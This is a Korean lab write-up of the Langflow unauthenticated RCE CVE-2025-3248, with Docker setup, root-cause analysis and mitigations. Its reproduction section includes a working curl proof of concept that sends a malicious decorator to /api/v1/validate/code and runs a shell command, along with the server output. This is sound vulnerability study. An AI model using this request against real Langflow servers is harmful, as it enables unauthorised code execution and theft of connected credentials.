





# Langflow 미인증 원격 코드 실행 (CVE-2025-3248)

**취약 엔드포인트:** `POST /api/v1/validate/code`


Langflow는 LangChain 기반 오픈소스 로우코드 플랫폼으로, LLM 애플리케이션 및 AI 에이전트를 드래그앤드롭 방식으로 설계·배포할 수 있다. 본 문서는 Langflow에서 확인된 미인증 원격 코드 실행 취약점(CVE-2025-3248)에 대한 기술적 사실과 재현 절차를 정리한다.

1.3.0 미만 버전에서는 `/api/v1/validate/code` 엔드포인트가 인증 없이 동작하며, 원격 공격자가 임의 코드를 실행할 수 있다. 해당 취약점은 CISA KEV에도 등재되어 실제 악용 위험이 높은 사안으로 분류된다.

## 취약점 요약

| 항목 | 내용 |
|------|------|
| 취약점 종류 | 코드 인젝션 및 인증 결여 (CWE-94, CWE-306) |
| CVSS Score | 9.8 (Critical) |
| 영향받는 버전 | Langflow < 1.3.0 (v1.2.x 등) |
| 패치 완료 버전 | Langflow 1.3.0 이상 |
| 악용 현황 | CISA KEV 등재 (실제 악용 확인) |

참고 자료:

- <https://nvd.nist.gov/vuln/detail/CVE-2025-3248>
- <https://github.com/langflow-ai/langflow/releases/tag/1.3.0>
- <https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/>

## 환경 설정

취약 버전(Langflow 1.2.0) 서버를 기동한다.

> Apple Silicon(M 시리즈) 등 ARM 환경에서는 x86 이미지 에뮬레이션이 필요하므로 `docker-compose.yml`에 `platform: linux/amd64`를 명시했다. 별도 명령 없이 `docker compose up -d`만으로 기동된다.

```
docker compose up -d
```



컨테이너가 정상 기동되면 `docker compose ps` 출력에서 STATUS가 `Up`으로 표시된다.



브라우저에서 `http://localhost:7860`으로 접속한다. Langflow는 기본 설정(`AUTO_LOGIN=true`)으로 인해 별도 로그인 없이 대시보드에 접근된다.



## 취약점 재현

### 공격 전 상태 확인

PoC 실행 전, 대상 파일이 존재하지 않음을 확인한다.

```
docker compose exec langflow ls -al /tmp/pwned
# ls: cannot access '/tmp/pwned': No such file or directory
```

### 미인증 RCE 요청

인증 정보 없이 `/api/v1/validate/code`로 악성 데코레이터를 포함한 함수 정의를 전송한다.

```
curl -i -s -X POST http://localhost:7860/api/v1/validate/code \
  -H "Content-Type: application/json" \
  -d '{"code": "@exec(\"import os; os.system(\u0027touch /tmp/pwned\u0027)\")\ndef x():\n    pass"}'
```

응답은 `200 OK`이며, 본문에는 `'NoneType' object is not callable` 오류가 포함된다. 이는 데코레이터가 `None`을 반환하면서 발생하는 후속 오류로, **페이로드 실행 이후** 관찰되는 현상이다. 즉 해당 오류의 존재는 코드 실행이 이미 발생했음을 시사한다.

```
HTTP/1.1 200 OK
content-type: application/json

{"imports":{"errors":[]},"function":{"errors":["'NoneType' object is not callable"]}}
```

### 코드 실행 증명

공격 이후 `/tmp/pwned` 파일 생성을 확인한다. 인증되지 않은 단일 HTTP 요청만으로 서버 파일시스템이 변경되었음을 의미한다.

```
docker compose exec langflow ls -al /tmp/pwned
# -rw-r--r-- 1 user root 0 Jun 28 09:51 /tmp/pwned
```



명령은 컨테이너 내부 `user`(uid=1000, root 그룹) 권한으로 실행된다.

```
docker compose exec langflow id
# uid=1000(user) gid=0(root) groups=0(root)
```



## 근본 원인 분석

해당 취약점은 코드 검증 엔드포인트(`/api/v1/validate/code`)의 설계상 결함이 복합적으로 작용해 발생했다. 주요 원인은 다음 세 가지다.

### 1. 인증·인가 체크 부재

엔드포인트가 로그인·토큰 검증 없이 외부에 노출되어 누구나 코드 검증 기능에 접근 가능했다. 즉 코드 실행 경로가 인증·인가 확인 이전에 열려 있었다.

### 2. 안전하지 않은 `exec()` 사용 및 샌드박싱 부재

서버는 사용자 입력 코드 검증 과정에서 샌드박스 없이 `exec()`를 사용했다. 처리 흐름은 다음과 같다.

1. `ast.parse()`로 코드를 추상 구문 트리(AST)로 파싱한다.
2. 함수 정의(`ast.FunctionDef`)를 찾아 `exec()`로 실행하여 구조를 검증한다.

### 3. Python 컴파일 단계의 즉시 실행 특성 악용

공격자는 함수 호출 여부와 무관하게 동작하는 Python의 parse/compile 단계 특성을 악용했다. 데코레이터 또는 기본 인자에 악성 코드를 삽입하면, `exec()`가 함수 정의를 처리하는 시점에 표현식이 즉시 평가되어 페이로드가 실행된다. 결과적으로 "검증" 단계 자체가 원격 코드 실행 경로로 전환된다.

## 공격자가 유발할 수 있는 피해

본 취약점은 인증 없이 서버 권한 탈취가 가능한 특성상, 다음과 같은 피해로 이어질 수 있다.

- **서버 제어권 탈취:** 내부 시스템 명령어를 실행하여 웹 서버 자체를 장악
- **데이터 유출:** Langflow와 연결된 LLM API 키, 데이터베이스 자격 증명, 에이전트 내부의 민감 데이터 탈취
- **내부망 침투(Lateral Movement):** 내부망에 구성된 AI 서버를 거점으로 다른 내부 시스템으로 공격 확대

## 환경 종료

```
docker compose down -v
```

## 대응 방안

- **버전 업그레이드(권고):** Langflow 1.3.0 이상으로 업데이트한다. 패치 버전은 해당 엔드포인트에 인증 로직(`Depends(get_current_active_user)`)을 적용해 로그인 없는 접근을 차단한다.
- **네트워크 접근 제어:** 즉시 업데이트가 어려운 경우, 방화벽 또는 리버스 프록시(Nginx 등)에서 외부 인터넷으로부터 `/api/v1/validate/code`로 유입되는 인바운드 요청을 차단한다.
- **샌드박싱:** 사용자 입력을 `exec()`로 직접 실행하는 설계를 지양하고, 불가피한 경우 격리된 샌드박스 환경에서 처리한다.
